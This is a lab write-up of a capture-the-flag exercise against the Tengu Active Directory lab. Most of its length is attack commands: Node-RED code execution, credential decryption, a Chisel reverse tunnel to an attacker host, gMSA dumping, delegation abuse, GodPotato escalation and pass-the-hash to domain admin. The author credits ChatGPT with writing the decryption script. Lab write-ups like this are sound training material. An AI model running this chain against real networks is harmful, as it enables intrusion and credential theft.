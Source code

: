 
![](Tengu_Cover.png)


## INFO

```
Machine 0x1
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x2
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x3
PORT     STATE SERVICE
22/tcp     open  ssh
1880/tcp   open  vsat-control
```

```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.


![](Node_Red.png)

Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


## NODE_RED


![](Rce_Node.png)



After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.


![](Decrypt_Creds.png)

```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```

```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```


```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```

![](Mssql_Access.png)


```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```


![](Mssql_Creds.png)


![](Crak_Station.png)

Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


![](Decode_KeyTab.png)


Its the machine account hash NODERED$ . 


## SQL_SERVER


![](Node_Red_Privilege.png)

Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```


![](../SENDAI_/GMSA_CREDS.png)

```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```



![](Allowed_To_Delegate.png)

Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.

![](Delegate_Allowed.png)



Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```

![](M.Winters_Ccache.png)

```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.


![](Cmd_Shell.png)


![](Privilge_SQL.png)

Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !


![](SQL_Rooted.png)


Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


## DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```

![](Domain_Admin_Hound.png)



```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


![](Domain_Admin_Hound.png)

